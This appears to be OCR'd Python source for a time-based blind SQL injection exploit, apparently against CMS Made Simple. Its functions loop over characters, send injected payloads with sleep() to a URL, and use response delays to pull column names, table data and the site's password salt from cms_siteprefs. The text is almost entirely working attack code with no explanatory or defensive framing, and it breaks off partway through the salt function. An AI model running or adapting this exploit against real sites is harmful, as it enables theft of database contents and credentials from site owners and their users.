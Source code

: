 ```python

def get_columns(database, table):
    characters = string.printable
    p1 = log.progress("Getting columns")
    p2 = log.progress("Trying with")
    columns = ""
    database = database.encode('utf-8').hex()
    table = table.encode('utf-8').hex()

    for pos in range(1, 1000):
        for char in characters:
            p2.status(char)
            payload = f")) and ((select ascii(substring(group_concat(column_name),{pos})) from information_schema.columns where table_schema = 0x{database} and table_name = 0x{table})={ord(char)}) and (select sleep({TIME}))-- -"
            payload = urllib.parse.quote(payload)
            actual_time = time.time()
            r = requests.get(URL + payload)
            if time.time() - actual_time > TIME:
                columns += char
                p1.status(columns)
                break

            if char == characters[-1]:
                p2.success("Columns found")
                return columns

def get_data(database, table, column):
    characters = string.printable
    p1 = log.progress("Getting data")
    p2 = log.progress("Trying with")
    data = ""

    for pos in range(1, 1000):
        for char in characters:
            p2.status(char)
            payload = f")) and ((select ascii(substring(group_concat({column}),{pos})) from {database}.{table})={ord(char)}) and (select sleep({TIME}))-- -"
            payload = urllib.parse.quote(payload)
            actual_time = time.time()
            r = requests.get(URL + payload)
            if time.time() - actual_time > TIME:
                data += char
                p1.status(data)
                break

            if char == characters[-1]:
                p2.success("Data found")
                return data


def get_salt():
    characters = string.printable
    p1 = log.progress("Getting salt")
    p2 = log.progress("Trying with")
    data = ""

    for pos in range(1, 1000):
        for char in characters:
            p2.status(char)
            payload = f")) and ((select ascii(substring(group_concat(sitepref_value),{pos})) from cmsmsdb.cms_siteprefs where sitepref_name like 0x736974656d61736b)={ord(char)}) and (select sleep({TIME}))-- -"
```